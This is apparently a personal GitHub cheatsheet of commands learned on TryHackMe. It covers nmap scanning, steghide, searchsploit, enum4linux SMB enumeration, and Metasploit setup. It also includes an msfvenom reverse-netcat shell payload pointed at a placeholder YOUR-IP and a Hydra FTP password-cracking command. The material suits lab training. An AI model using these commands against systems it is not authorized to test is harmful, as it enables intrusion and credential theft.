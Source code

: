 # TryHackMe Cheatsheets and Write-ups

Some stuffs learned in war rooms from TryHackMe platform.

## VPN

```bash
# Install OpenVPN tool
sudo apt install openvpn

# Connect to a VPN
sudo openvpn your-vpn-file.ovp
```

## Steganography

```bash
# Install StegHide tool
sudo apt install steghide

# Hide a secret into a picture (pic.jpg will be replaced)
steghide embed -cf pic.jpg -ef secret.txt

# Display info about a file whether it has embedded secrets
steghide info pic.jpg

# Extract secret from a picture
steghide extract -sf pic.jpg
```

[Steganography - A list of useful tools and resourcesPermalink](https://0xrick.github.io/lists/stego/)

[Steghide Documentation](https://steghide.sourceforge.net/)

## Vulnerabilities and Exploits

```bash
# Download searchsploit tool
git clone https://gitlab.com/exploit-database/exploitdb.git
cd exploitdb && ./searchsploit -h

# Search for exploits samples
./searchsploit fuel cms
./searchsploit proftpd 1.3.5
```

[Exploit Database](https://www.exploit-db.com/)

[National Vulnerability Database](https://nvd.nist.gov/vuln/search)

[CVE Mitre](https://cve.mitre.org/)

## Find files on Linux

```bash
# Find by filename
find / -name passwords.txt

# Find by extension
find / -iname *.txt

# Fast way to find files
locate passwords.txt
```

## NMAP Basic

```bash
# Syn Scan
sudo nmap -sS my-host-name

# UDP Scan
sudo nmap -sU my-host-name

# TCP scan in all ports
sudo nmap -sT -p- my-host-name

# NULL, FIN and Xmas Scan
sudo nmap -sN my-host-name
sudo nmap -sF my-host-name
sudo nmap -sX my-host-name

# Scan without ping
sudo nmap -Pn my-host-nmae

# Ping sweep scan
sudo nmap -sn 192.168.0.-

# Verbose modes: -v, -vv or -vvv
sudo nmap -vv -p 8080 my-host-name

# Detect version of services
sudo nmap -sV my-host-name

# Try detect operating system
sudo nmap -O my-host-name

# Speed of scan -T0 (slow) to -T5 (fast)
sudo nmap -vv -p- -T5 my-host-name
```

## NMAP Scripts

```bash
# Search for Nmap scripts related to ftp
grep "ftp" /usr/share/nmap/scripts/script.db

# Scan with all scripts from vuln category
sudo nmap --script=vuln my-host-name
```

## SMB and SAMBA

```bash
# Download enum4linux tool
sudo apt install samba-common-bin smbclient ldap-utils polenum
git clone https://github.com/CiscoCXSecurity/enum4linux.git
cd enum4linux && ./enum4linux.pl

# Download enum4linux-ng tool
git clone https://github.com/cddmp/enum4linux-ng.git
cd enum4linux-ng && ./enum4linux-ng.py

# Try get a user list from SMB
./enum4linux.pl -U my-host-name

# Try get a share list from SMD
./enum4linux.pl -S my-host-name

# Enumerate SMB/Samba
./enum4linux.pl -a my-host-name

# Access a public shared folder with smbclient (password: anonymous)
smbclient //some-host-name-or-ip/shared-folder -U anonymous -p 445
```

## Dumping network traffic

```bash
# Dumping ICMP packages from VPN interface
sudo tcpdump ip proto \\icmp -i tun0
```

## Metasploit Framework

```bash
# Install GPG key from Metaploit repository
sudo wget https://apt.metasploit.com/metasploit-framework.gpg.key \
-O /etc/apt/trusted.gpg.d/metasploit.asc

# Install Metaploit repository
echo "deb https://apt.metasploit.com xenial main" | \
sudo tee /etc/apt/sources.list.d/metasploit.list

# Install Metaploit framework
sudo apt install metasploit-framework

# Generate payload for reverse shell using netcat for linux
msfvenom -p cmd/unix/reverse_netcat lhost=YOUR-IP lport=YOUR-PORT R
```

## Hydra (Parallelized login cracker)

```bash
# Install Hydra 9.2 from debian repositories
sudo apt install hydra

# Cracking FTP service
hydra -t 4 -l USER -P wordlist.txt -vV YOUR-HOSTNAME ftp
```

## Wordlists

```bash
# Download rockyou wordlist
wget https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt
```